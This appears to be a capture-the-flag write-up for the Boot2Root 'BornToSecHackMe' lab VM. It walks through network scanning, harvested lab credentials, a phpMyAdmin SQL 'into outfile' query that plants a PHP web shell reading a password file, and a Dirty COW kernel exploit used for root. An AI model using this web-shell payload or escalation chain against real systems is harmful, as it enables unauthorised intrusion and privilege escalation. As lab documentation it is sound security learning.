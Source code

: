 ## Searching IP address of out virtual machine.

``
ifconfig - needed for searching IP. 
``

![
vmnet8: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
	ether 00:50:56:c0:00:08
	inet 172.16.101.1 netmask 0xffffff00 broadcast 172.16.101.255
](/imgs/img1.png)

## Using nmap to find info about our IP address.
``
nmap 172.16.101.1-255
``

![
PORT   STATE SERVICE
22/tcp open  ssh
Nmap scan report for 172.16.101.128
Host is up (0.0012s latency).
Not shown: 994 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
Nmap done: 255 IP addresses (2 hosts up) scanned in 27.37 seconds
](/imgs/img2.png)
``172.16.101.128 IP of our VM``

## Checking links by address.
``git clone https://github.com/v0re/dirb.git``

### Install and use dirb
```
cd dirb
./confgiure
make
```
``./dirb https://172.16.101.128/ wordlists/common.txt``

## Checking links of forum.
After logging in to the forum, we find a branch of 'Probleme login?'.

Walking through the logs we find two lines:

### The first input was supposed to be confused lines for login and password.
![
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
](/imgs/img3.png)

### In the second login was correct.
![
Oct 5 09:21:01 BornToSecHackMe CRON[9111]: pam_unix(cron:session): session closed for user lmezard 
](/imgs/img4.png)

## Attempt to enter the e-mail with the received login and password.
Follow the link ``https://172.16.101.128/webmail/src/login.php``

With login ``lmezard`` and password ``!q\]Ej?*5K5cy*AJ`` not working.

Trying to search login ``lmezard`` in google :
![
Google info about lmezard. Laurie Mezard
](/imgs/img5.png)
We were given the full name Laurie Mezard. Trying different options for login.

The option we need is `` laurie@borntosec.net``.

Enter the email `` login: laurie@borntosec.net` and `` password:! !q\]Ej?*5K5cy*AJ``

Searching info in mail we find a letter:
![
Hey Laurie,
You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$
Best regards.
](/imgs/img6.png)
Find the password and login for the database ``login: root`` and ``password: Fg-'kKXBj87E:aJ$``

## Attempt to login phpmyadmin.
Follow thi link ``https://172.16.101.128/phpmyadmin/``

With login and password we enter in the database.

After searching the network, we find an exploit for db.

``select "<?php $output = shell_exec('cat /home/LOOKATME/password'); echo $output ?>" into outfile "/var/www/forum/templates_c/pokemon.php"``

Go to the sqltab in the same phpmyadmin window to which we are logged in.

Execute the script.

Script created a new template for the link ``https://172.16.101.128/forum/templates_c/pokemon.php`` where we can find ``lmezard:G!@M6f4Eatau{sF"``.

## Attempt to connect by ftp.
``ftp 172.16.101.128``
``login: lmezard``
``password: G!@M6f4Eatau{sF"``

Login was successful, checking the directory:
![
README.md
fun
](/imgs/img7.png)
Now we downloading file ``get fun ~/boot2root/fun``

In the file a lot of different information, if you look at the file type ``file fun`` we found out that file is an archive.

Unzip the archive ``tar xvf fun``

We receive the whole folder with different files. When viewing each file, we recognize that there is a line with a license plate and a piece of code.

We use a small script that will collect everything from the files, sort it and then create a new main.c file.
``python unpack.py``
``gcc main.c``
``./a.out``

After run we get:
``
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
``

Encrypt it in SHA-256 and get:
``330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4``
## Attempt to login via ssh.
``ssh laurie@172.16.101.128``
``login: laurie``
``password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4``

Login was success.

Now we need to find out what kind of server it is to correctly google exploit for root.
``uname -r`` -> 3.2.0-91-generic-pae
``cat /etc/*-release`` -> DISTRIB_DESCRIPTION="Ubuntu 12.04.5 LTS"

With the obtained data, we do a search in Google and find this [link](https://www.exploit-db.com/exploits/40839).

Create this script on the server, we did it through vim.
``touch pokemon.c``
``vim pokemon.c`` -> ``CMD + C`` -> ``CMD + V``
``gcc -pthread pokemon.c -o dirty -lcrypt && ./dirty``
Now we set some password.
``su firefart``
# U are root.

















